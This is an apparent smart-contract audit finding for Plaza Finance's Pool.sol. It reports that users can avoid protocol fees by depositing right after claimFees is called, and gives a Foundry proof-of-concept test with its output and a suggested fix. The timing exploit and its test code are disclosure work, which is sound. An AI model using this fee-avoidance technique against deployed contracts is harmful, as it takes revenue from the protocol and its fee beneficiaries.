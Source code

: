Straight Tortilla Cougar

High

# Users can avoid fees by depositing in the pool directly after fees have been claimed

### Summary

A problem with fee calculation in ``Pool.sol`` will cause a loss of funds for the protocol as attackers can deposit funds directly after ``claimFees`` has been called in order to avoid protocol fees.

### Root Cause

When calling the ``create`` function in ``Pool.sol``, the following calculation in ``[simulateCreate](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L273)`` is made in order to subtract a fee from the user.

```solidity
poolReserves = poolReserves - (poolReserves * fee * (block.timestamp - lastFeeClaimTime)) / (PRECISION * SECONDS_PER_YEAR); 
```

The size of the fee will depend on ``block.timestamp - lastFeeClaimTime``, i.e. how much time has passed since the last fee claim. 

A user can use this information and monitor incoming ``claimFees()`` transactions and place ``create`` calls directly after, thereby minimizing the fees paid to the protocol.


### Impact

The attacker can use the protocol without paying the fee set by the pool creators. This will cause losses to the protocol.

### PoC

Paste the following test in ``Pool.t.sol`` and run it. Uncomment the following lines:

```solidity 
vm.startPrank(params.feeBeneficiary);
pool.claimFees();
vm.stopPrank();
```

and run it again.


```solidity 
function testCreateRedeemWithFeesFail() public {
    vm.startPrank(governance);

    // Create a pool with 2% fee
    params.fee = 50000; // 2% fee (1000000 precision)
    params.feeBeneficiary = address(0x942);

    // Mint and approve reserve tokens
    Token rToken = Token(params.reserveToken);
    rToken.mint(governance, 100 ether);
    rToken.approve(address(poolFactory), 100 ether);

    Pool pool = Pool(poolFactory.createPool(params, 100 ether, 500 ether, 250 ether, "", "", "", "", false));
    vm.stopPrank();

    // User creates leverage tokens
    vm.startPrank(user);
    
    rToken.mint(user, 100 ether);
    rToken.approve(address(pool), 100 ether);
    uint256 levAmount = pool.create(Pool.TokenType.LEVERAGE, 4 ether, 0);
    vm.stopPrank();
    // Advance time by 30 days
    
    // mockPriceFeed.setMockPrice(3000 * int256(CHAINLINK_DECIMAL_PRECISION), uint8(CHAINLINK_DECIMAL));

    // // Calculate expected fee

  for (uint i = 30; i < 365; i +=30) {
      vm.warp(vm.getBlockTimestamp() + 30 days);

    mockPriceFeed.setMockPrice(3000 * int256(CHAINLINK_DECIMAL_PRECISION), uint8(CHAINLINK_DECIMAL));

    // vm.startPrank(params.feeBeneficiary);
    // pool.claimFees();
    // vm.stopPrank();


    vm.startPrank(user);
    levAmount = pool.create(Pool.TokenType.LEVERAGE, 8 ether, 0);    
    vm.stopPrank(); 



    console.log("Fee balance at ",i, " days : ", rToken.balanceOf(address(params.feeBeneficiary)));

  }
  skip(5 days);
    // User redeems leverage tokens

    vm.startPrank(params.feeBeneficiary);
    pool.claimFees();
    vm.stopPrank();

    vm.startPrank(user);


    pool.bondToken().approve(address(pool), levAmount);
    mockPriceFeed.setMockPrice(3000 * int256(CHAINLINK_DECIMAL_PRECISION), uint8(CHAINLINK_DECIMAL));

    uint256 redeemedAmount = pool.redeem(Pool.TokenType.LEVERAGE, pool.lToken().balanceOf(user), 0);

    // User should get back less than initial deposit due to fees
    assertLt(redeemedAmount, 100 ether);
    console.log("Redeemed amount: ", redeemedAmount);

    vm.stopPrank();
``` 




Depositing after fees have been claimed yields the following output:

> 
> Fee balance at  30  days :  427397260273972602
>   Fee balance at  60  days :  885914805779696002
>   Fee balance at  90  days :  1375424744934026018
>   Fee balance at  120  days :  1895799711735667006
>   Fee balance at  150  days :  2446912863605246456
>   Fee balance at  180  days :  3028637879234265991
>   Fee balance at  210  days :  3640848956442892295
>   Fee balance at  240  days :  4283420810046551641
>   Fee balance at  270  days :  4956228669731291839
>   Fee balance at  300  days :  5659148277937875571
>   Fee balance at  330  days :  6392055887754569233
>   Fee balance at  360  days :  7154828260818591551
>   Redeemed amount:  97246488335846045441
>   Fee balance total:  7286913994886524022 
> 

Not claiming the fees:

>   Fee balance at  30  days :  0
>   Fee balance at  60  days :  0
>   Fee balance at  90  days :  0
>   Fee balance at  120  days :  0
>   Fee balance at  150  days :  0
>   Fee balance at  180  days :  0
>   Fee balance at  210  days :  0
>   Fee balance at  240  days :  0
>   Fee balance at  270  days :  0
>   Fee balance at  300  days :  0
>   Fee balance at  330  days :  0
>   Fee balance at  360  days :  0
>   Redeemed amount:  96006049108890525333
>   Fee balance total:  10000000000000000000
> 

In the end, the user pays ~69% less fees by depositing directly after a fee has been claimed. These percentages will vary according to the ratio between user deposit and pool reserves.

### Mitigation

Fees should be collected only on user actions, instead of the entire reserve token protocol balance.

To achieve this, another data structure should be added to the contract state to keep track of user deposits and accumulated fees.
